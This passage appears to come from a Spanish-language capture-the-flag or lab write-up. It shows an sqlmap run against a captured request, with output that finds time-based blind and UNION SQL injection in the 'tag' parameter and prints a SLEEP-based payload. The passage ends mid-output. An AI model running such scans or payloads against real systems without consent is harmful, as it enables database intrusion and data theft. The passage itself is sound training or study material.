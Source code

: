 Ahora vamos a ejecutar el `sqlmap` a ver si encuentra algo...

```shell
sqlmap -r request.txt --dbs --batch
```

Info:

```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:28:24 /2025-06-19/

[03:28:24] [INFO] parsing HTTP request from 'request.txt'
[03:28:24] [INFO] testing connection to the target URL
[03:28:24] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:28:24] [INFO] testing if the target URL content is stable
[03:28:25] [INFO] target URL content is stable
[03:28:25] [INFO] testing if GET parameter 'tag' is dynamic
[03:28:25] [WARNING] GET parameter 'tag' does not appear to be dynamic
[03:28:25] [WARNING] heuristic (basic) test shows that GET parameter 'tag' might not be injectable
[03:28:25] [INFO] testing for SQL injection on GET parameter 'tag'
[03:28:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:28:25] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:28:25] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:28:25] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:28:25] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:28:25] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:28:25] [INFO] testing 'Generic inline queries'
[03:28:25] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:28:25] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:28:25] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:28:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:28:35] [INFO] GET parameter 'tag' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[03:28:35] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:28:35] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[03:28:35] [INFO] target URL appears to be UNION injectable with 3 columns
[03:28:35] [INFO] GET parameter 'tag' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'tag' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: tag (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tag=sqli' AND (SELECT 9943 FROM (SELECT(SLEEP(5)))KblS) AND 'bZbx'='bZbx

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
```